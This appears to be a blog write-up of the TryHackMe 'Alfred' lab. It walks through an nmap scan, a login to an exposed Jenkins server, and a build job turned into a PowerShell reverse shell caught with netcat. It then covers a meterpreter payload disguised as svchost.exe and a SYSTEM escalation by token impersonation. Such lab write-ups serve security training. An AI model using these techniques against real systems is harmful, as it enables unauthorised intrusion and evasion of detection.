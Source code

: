 ```yaml
---
title: THM - Alfred
date: 2022-07-25 18:25:00 +0200
categories: [Writeups]
tags: [tryhackme, tutorial]     # TAG names should always be lowercase
---
```


## Initial access
What do Batman and Jenkins have in common? Check the page source code for the answer. <!--something something butler...-->
Running nmap reveals that the following three TCP ports listed below are open. Visiting the website hosted on TCP port 80 displays a picture of the actor Christian Bale.
To this day, no one has seen Batman and Christian Bale together in the same room. 

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -T4 -Pn -p1-10000 -v <TARGET_IP>
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Continueing to the Jenkins server on port 8080/tcp we are greeted with a login wall.
A quick Google search shows that the default username for Jenkins is admin and the password is stored in `$JENKINS_HOME/secrets/initialAdminPassword`.
However, this is not an option since we do not have access to the filesystem yet. Before attempting a fully fledged and noisy brute force atack,
why not check if the door is already half open? Seems like it is! 

After log in we can see a project with the name "project" (confusing) was last built succesfullly almost 3 years ago.
Checking the console output we see a shell executing a command:

```console?lang=batchfile
Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS
```
We can replace the whoami command with the powershell command provided by THM and adjust it to match your attack machine webserver and netcat listener.
After running a new job for the project we obtained a shell!

```console
└─$ nc -lvnp 4242  
listening on [any] 4242 ...
connect to [10.11.75.80] from (UNKNOWN) [10.10.32.229] 49312
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\test>
```
The first flag is located at `C:\Users\bruce\Desktop\user.txt`

## Switching shells
The current shell works, but a meterpreter shell has much more capabilities. THM already provides the commands to create a meterpreter payload, but we are allowed to choose a name for the executable.
Its a good practice to use a common executable name to seem less suspicious. After downloading the payload using the reverse shell we already have we can run the executable: `C:\Program Files (x86)\Jenkins\workspace\test> ./svchost.exe`

Because running svchost.exe from the Jenkins folder is obviously not suspicious.. 

## Privilege escalation
Running `whoami /priv` shows we have the "SecurityImpersonation" Impersonation token level enabled.
By using meterpreter we are able to assign the NT Authority\System user impersonation token:

```console
meterpreter > getuid
Server username: alfred\bruce
meterpreter > impersonate_token "BUILTIN\Administrators" 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Meterpreter warns us that we are not running as the system user. Windows checks the primary token of a process, not the impersonation token to determine privileges.
We therefore need to migrate to a process running under the system user such as services.exe.

After migrating we are able to grab the root flag!